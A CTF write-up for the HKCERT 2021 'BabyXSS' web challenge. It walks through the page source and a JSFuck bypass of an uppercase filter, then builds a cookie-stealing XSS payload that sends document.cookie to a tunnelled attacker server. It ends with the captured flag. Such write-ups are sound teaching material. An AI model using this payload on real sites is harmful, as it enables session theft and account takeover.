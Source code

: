 ```yaml
---
title: "HKCERT CTF 2021: 純孩兒 BabyXSS"
description: ""
date: 2021-11-16T02:00:32+08:00
lastmod: 2021-11-16T02:00:32+08:00
math: false
draft: false
tags: ["ctf", "hkcert21", "web", "xss"]
---
```


> **This post is part of the [HKCERT 2021 CTF series](/tags/hkcert21).**

---

|     Name     | 純孩兒 (BabyXSS)                 |
| :----------: | -------------------------------- |
|     Tags     | web                              |
|    Points    | 100                              |
|  Difficulty  | ★☆☆☆☆                            |
|    Solves    | 37 (total of all four divisions) |
| Release Date | 2021-11-13 02:00:00              |

> Have you tried the infant XSS challenge in the training platform? If you did, then you can try out this BABY XSS CHALLENGE...
>
> http://babyxss-m7neh9.hkcert21.pwnable.hk
>
> XSS Bot: http://xssbot-cxild5.hkcert21.pwnable.hk

## Step 1: Obtaining

Check the source code of the page by prepending `view-source:` to the URL, i.e., `view-source:http://babyxss-m7neh9.hkcert21.pwnable.hk/`.

```html
<HTML>
<HEAD>
	<TITLE>BABY XSS</TITLE>
</HEAD>
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
<H1>BABY XSS</H1>
<TEXTAREA ID="INPUT" ONCHANGE="WINDOW[LOCATION][HASH]=WINDOW[ENCODEURI](INPUT[VALUE])" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<IFRAME ID="OUTPUT" STYLE="WIDTH:400;HEIGHT:300"></IFRAME>
<SCRIPT>
	TOUPPERCASE = "\164\157\125\160\160\145\162\103\141\163\145";
	SUBSTR = "\163\165\142\163\164\162";
	ENCODEURI = "\145\156\143\157\144\145\125\122\111";
	DECODEURI = "\144\145\143\157\144\145\125\122\111";
	VALUE = "\166\141\154\165\145";
	SRCDOC = "\163\162\143\144\157\143";
	CONTENTWINDOW = "\143\157\156\164\145\156\164\127\151\156\144\157\167";
	PARENT = "\160\141\162\145\156\164";
	LOCATION = "\154\157\143\141\164\151\157\156";
	HASH = "\150\141\163\150";
	WINDOW = OUTPUT[CONTENTWINDOW][PARENT];

	CONVERT = () => {
		INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
		OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
	}
</SCRIPT>
</BODY>
</HTML>
```

We can see that this whole piece of code is uppercased. Also, the strings in the code inside the `script` tag is not readable, maybe because it's obfuscated?

So we input this whole piece of JavaScript code into https://deobfuscate.io. This is what we get.

{{< highlight javascript "linenostart=10" >}}
TOUPPERCASE = "toUpperCase";
SUBSTR = "substr";
ENCODEURI = "encodeURI";
DECODEURI = "decodeURI";
VALUE = "value";
SRCDOC = "srcdoc";
CONTENTWINDOW = "contentWindow";
PARENT = "parent";
LOCATION = "location";
HASH = "hash";
WINDOW = OUTPUT[CONTENTWINDOW][PARENT];
CONVERT = () => {
  INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
  OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
};
{{< / highlight >}}

## Step 2: Analysing

Now that the code is made readable, we can clean up the code and figure out the flow of how this page works.

1. In **Line 7**, we can see that whenever the content in the text area is changed, a URL-encoded form of the content inside is appended to the current URL after a `#` (the hash part of the URL).

{{< highlight html "linenostart=7" >}}
<TEXTAREA ID="INPUT" ONCHANGE="window.location.hash=window.encodeURI(INPUT.value)" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<!-- the cleaned code above is equivalent to the original -->
{{< / highlight >}}

2. In **Line 5**, we can see that whenever the page is loaded or the hash part in the current URL is changed, the `CONVERT` function is called.

{{< highlight html "linenostart=5" >}}
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
{{< / highlight >}}

3. The `CONVERT` function is essentially replacing the content in the text area with the URL-decoded form of the hash part of the current URL, and also setting the `srcdoc` attribute of the output iframe to the uppercased form of the content in the text area.

{{< highlight javascript "linenostart=21" >}}
CONVERT = () => {
  document.getElementById("INPUT").value = window.decodeURI(window.location.hash.substr(1)); // substr(1) removes the '#' prefix
  document.getElementById("OUTPUT").srcdoc = INPUT.value.toUpperCase();
}; // the above code is cleaned and is equivalent to the original
{{< / highlight >}}

## Step 3: XSS Attack Procedure

{{< figure src="1.png" width=600 >}}

Since the hash part of the current URL updates correspondingly to the current content in the input text area, it acts like a "state-saving-and-restoring" function. This means when we type some input in the text area, the hash part of the current URL is updated as it saves our input. If we pass the URL to the victim, the content in the input text area is restored from the hash part of the URL once the page is loaded.

In order to achieve XSS, we need to figure out some way to execute JavaScript in victim's browser as we can then get access to sensitive information (e.g., cookies) stored in his browser. To do that, we can make use of the iframe `srcdoc` mechanism as this attribute allows us to inject source document including JavaScript code into the iframe document. If we use JavaScript code as the input, when the victim loaded the page given a URL, the input content is restored and the JavaScript code will be executed in victim's browser.

Note that HTML tags are **case-insensitive**, whereas JavaScript variables are **case-sensitive**. This is rather important in this challenge because although there is no escaping or encoding used, the input content is uppercased (in Line 9) before being inserted into the `srcdoc` attribute of the output iframe.

This means that if we directly inject something like `<script>alert(1)</script>` into the output iframe as the code will become `<SCRIPT>ALERT(1)</SCRIPT>`, it won't be triggered due to `Uncaught ReferenceError: ALERT is not defined`.

So we need to come up with a way to bypass the uppercase transformation so that the code can still be executed even after being uppercased. A simple Google search with "*javascript uppercase xss*" returns a *StackExchange* question as the first result: [How can I execute a XSS when a web application transforms a data from lowercase to uppercase?](https://security.stackexchange.com/questions/117798/how-can-i-execute-a-xss-when-a-web-application-transforms-a-data-from-lowercase)

It turns out that we can use *JSFuck* to transform plain JavaScript code into its equivalent in the form of `[]()!+` characters. This effectively bypasses the uppercase transformation while still can execute the code that does the same thing.

## Step 4: Exploit

Now in order for us to get the cookie stored in the victim's browser, we can use `document.cookie`. We also need to make a way for us to receive this cookie. We can expose a simple LAN web server to the Internet and make a request to the server with `document.cookie` as part of the request.

This is the simple web server I used.

```go
// file: server.go
package main

import (
	"fmt"
	"net/http"
)

func root(w http.ResponseWriter, req *http.Request) {
	fmt.Println(req.URL.String())  // log the request URL
	fmt.Fprintf(w, "hello\n")
}

func main() {
	http.HandleFunc("/", root)
	http.ListenAndServe(":1313", nil) // localhost on port 1313
}
```

Run it with `go run server.go`, then expose it to the Internet using a free tunnelling service: http://localhost.run by running `ssh -R 80:localhost:1313 nokey@localhost.run`. Now we get a temporary hosted web server that can be accessed by the victim as well.

In order for the victim's browser to send its cookie to my server, our XSS payload can tell it to navigate to the URL of our server with the cookie as part of the URL query so that my server logs this URL that contains the cookie.

The following is the XSS payload I used. The URL domain is the one provided by the tunnelling service.

```javascript
location.href="https://7795a3052e14c9.lhr.domains/?"+document.cookie
```

Then we will need to *JSFuck* the XSS payload, wraps it with the `script` tag, and type it into the input text area. Now you see the URL has changed, copy the URL and send it to the XSS Bot. Hooray! Now the flag shows up in the stdout of our server! `hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}`

```
$ go run server.go
/?
/?flag=hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}
```

